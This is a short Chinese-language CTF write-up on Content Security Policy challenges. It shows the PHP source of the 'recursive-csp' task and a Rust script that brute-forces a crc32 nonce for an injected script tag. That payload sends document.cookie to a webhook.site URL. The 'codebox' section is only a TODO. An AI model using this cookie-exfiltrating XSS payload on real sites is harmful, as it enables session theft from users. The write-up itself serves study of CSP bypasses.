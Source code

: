 ```yaml
---
tags: 
  - CSP
  - TODO
---
```


# CSP

把两道 CSP 相关的题放在一起。

## recursive csp

题目源码
```html
<?php
  if (isset($_GET["source"])) highlight_file(__FILE__) && die();

  $name = "world";
  if (isset($_GET["name"]) && is_string($_GET["name"]) && strlen($_GET["name"]) < 128) {
    $name = $_GET["name"];
  }

  $nonce = hash("crc32b", $name);
  header("Content-Security-Policy: default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'; base-uri 'none';");
?>
<!DOCTYPE html>
<html>
  <head>
    <title>recursive-csp</title>
  </head>
  <body>
    <h1>Hello, <?php echo $name ?>!</h1>
    <h3>Enter your name:</h3>
    <form method="GET">
      <input type="text" placeholder="name" name="name" />
      <input type="submit" />
    </form>
    <!-- /?source -->
  </body>
</html>
```

这题主要是认识下 CSP ([MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src#unsafe_inline_script))，可以看到题目中的 CSP 规则是 `default-src 'none'; script-src 'nonce-$nonce' 'unsafe-inline'`，nonce 部分可控，爆破 crc32 保持 nonce 相同即可。

Rust 写的爆破脚本，来自[Post](https://brycec.me/posts/dicectf_2023_challenges)。
```rust
use rayon::prelude::*;

fn main() {
    let payload = "<script nonce='ZZZZZZZZ'>location.href='https://webhook.site/95269d84-93ab-4b47-964a-b548e8358c09' + document.cookie</script>".to_string();
    let start = payload.find("Z").unwrap();
    (0..=0xFFFFFFFFu32).into_par_iter().for_each(|i| {
        let mut p = payload.clone();
        p.replace_range(start..start+8, &format!("{:08x}", i));
        if crc32fast::hash(p.as_bytes()) == i {
            println!("{} {i} {:08x}", p, i);
        }
    });
}
```

## codebox

一个 trick + CSP 属性的利用。

TODO
